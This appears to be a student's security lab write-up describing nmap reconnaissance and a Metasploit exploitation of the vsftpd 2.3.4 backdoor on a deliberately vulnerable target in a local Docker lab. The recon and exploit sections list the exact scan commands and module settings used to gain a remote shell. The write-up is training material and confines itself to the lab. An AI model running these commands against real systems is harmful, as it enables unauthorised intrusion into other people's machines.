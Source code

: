 # Week 5 – Recon and exploit lab

Summary
Used nmap and Metasploit against a deliberately vulnerable target running inside a local lab environment.

Tools used
docker, nmap, msfconsole

Lab setup
- Local Docker container for a vulnerable VM
- A separate shell for the host VM

Recon
nmap -p0-65535 <target_ip>
nmap <target_ip> --script vuln -p 21

Exploit
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target_ip>
run

Proof
- lsb_release and ifconfig inside the remote shell

Screenshots
Place here: screenshots/nmap.png and screenshots/msf_success.png

Notes
- Restrict tests to the lab target only
- Do not scan external networks without permission
